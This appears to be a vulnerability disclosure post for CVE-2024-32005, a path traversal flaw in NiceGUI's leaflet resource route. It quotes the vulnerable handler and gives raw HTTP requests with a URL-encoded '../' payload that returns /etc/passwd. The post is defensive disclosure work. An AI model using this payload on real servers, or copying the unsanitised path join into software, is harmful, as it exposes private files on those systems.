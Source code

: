 ```yaml
---
layout: post
title:  "CVE-2024-32005: Local File Inclusion in NiceGUI leaflet component"
date:  2024-04-10 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> NiceUI: Local File Inclusion in NiceUI leaflet component

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## CVE

> [CVE-2024-32005: Local File Inclusion in NiceGUI leaflet component](https://www.cve.org/CVERecord?id=CVE-2024-32005)

## Description

A local file inclusion is present in the NiceUI leaflet component when requesting resource files under the `/_nicegui/{__version__}/resources/{key}/{path:path}` route.

## Proof of Concept

In [route](https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/nicegui.py#L98) `/_nicegui/{__version__}/resources/{key}/{path:path}` is used for [serving CSS and JS resources locally](https://github.com/zauberzeug/nicegui/commit/b465af3bb7a825c89ca6562e5eb7ebfeee5bb589). The `path` parameter in url is not sanitized before appended to base path, an attacker can use `..` to escape base directory and locate any file on system which will be sent back to the attacker, causing local file inclusion issue.

```
@app.get(f'/_nicegui/{__version__}' + '/resources/{key}/{path:path}')
def _get_resource(key: str, path: str) -> FileResponse:
    if key in resources:
        filepath = resources[key].path / path
        if filepath.exists():
            headers = {'Cache-Control': 'public, max-age=3600'}
            media_type, _ = mimetypes.guess_type(filepath)
            return FileResponse(filepath, media_type=media_type, headers=headers)
    raise HTTPException(status_code=404, detail=f'resource "{key}" not found')
```

However, the `resources` is only [initialized](https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/elements/leaflet.py#L40) by `ui.leaflet` component. To exploit the bug, a developer should use `leaflet` component in web pages so that the route is activated. Consider following [code snippet](https://nicegui.io/documentation/leaflet#leaflet_map) from official document.

Firstly, install nicegui using `python pip`:

```
pip install nicegui
```
Then, save following code to `main.py`
```
from nicegui import ui

m = ui.leaflet(center=(51.505, -0.09))
ui.label().bind_text_from(m, 'center', lambda center: f'Center: {center[0]:.3f}, {center[1]:.3f}')
ui.label().bind_text_from(m, 'zoom', lambda zoom: f'Zoom: {zoom}')

with ui.grid(columns=2):
    ui.button('London', on_click=lambda: m.set_center((51.505, -0.090)))
    ui.button('Berlin', on_click=lambda: m.set_center((52.520, 13.405)))
    ui.button(icon='zoom_in', on_click=lambda: m.set_zoom(m.zoom + 1))
    ui.button(icon='zoom_out', on_click=lambda: m.set_zoom(m.zoom - 1))

ui.run()
```
Run the application, it will listen on `http://127.0.0.1:8080` by default.

```
python main.py
```
Open the webpage in browser and intecept requests using burp suite or chrome devtools. We can capture following request:

```
GET http://10.15.0.171:8080/_nicegui/1.4.20/resources/763203f93f18a3f1f5d14f74197580e4/leaflet/leaflet.js HTTP/1.1
Accept: */*
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
Cache-Control: no-cache
Cookie: 
Pragma: no-cache
Referer: http://10.15.0.171:8080/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Postman-Token: 73930b8b-6cc7-4511-aff9-ff25d835c300
Host: 10.15.0.171:8080
Accept-Encoding: gzip, deflate
Connection: close
```
Modify the request by change `leaflet/leaflet.js` part to `%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` which is `../../../../../etc/passwd` url-encoded content.

```
GET http://10.15.0.171:8080/_nicegui/1.4.20/resources/763203f93f18a3f1f5d14f74197580e4/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64 HTTP/1.1
Accept: */*
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
Cache-Control: no-cache
Cookie: _xsrf=2|87674a0e|961e2a9f73992956aae527a8f55167fb|1706518977; _gitlab_session=64bf3e7143f852d8e3646970f8c7b3df; fakesession=hello
Pragma: no-cache
Referer: http://10.15.0.171:8080/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Postman-Token: 73930b8b-6cc7-4511-aff9-ff25d835c300
Host: 10.15.0.171:8080
Accept-Encoding: gzip, deflate
Connection: close
```

Or just open link: `http://10.15.0.171:8080/_nicegui/1.4.20/resources/763203f93f18a3f1f5d14f74197580e4/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` in browser(change ip and port to your server).

The output is the contents of the `/etc/passwd` file:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
...
```

![niceui](./niceui.png)

## Impact

Any file on the backend filesystem can be read by an attacker with access to the NiceUI leaflet website.



## Reference
[https://github.com/zauberzeug/nicegui/issues/2870](https://github.com/zauberzeug/nicegui/issues/2870)
[https://www.cve.org/CVERecord?id=CVE-2024-32005](https://www.cve.org/CVERecord?id=CVE-2024-32005)
[https://nvd.nist.gov/vuln/detail/CVE-2024-32005](https://nvd.nist.gov/vuln/detail/CVE-2024-32005)
[https://github.com/zauberzeug/nicegui/security/advisories/GHSA-mwc7-64wg-pgvj](https://github.com/zauberzeug/nicegui/security/advisories/GHSA-mwc7-64wg-pgvj)
[https://huntr.com/bounties/29ec621a-bd69-4225-ab0f-5bb8a1d10c67](https://huntr.com/bounties/29ec621a-bd69-4225-ab0f-5bb8a1d10c67)

## Occurrences

[https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/nicegui.py#L98](https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/nicegui.py#L98)
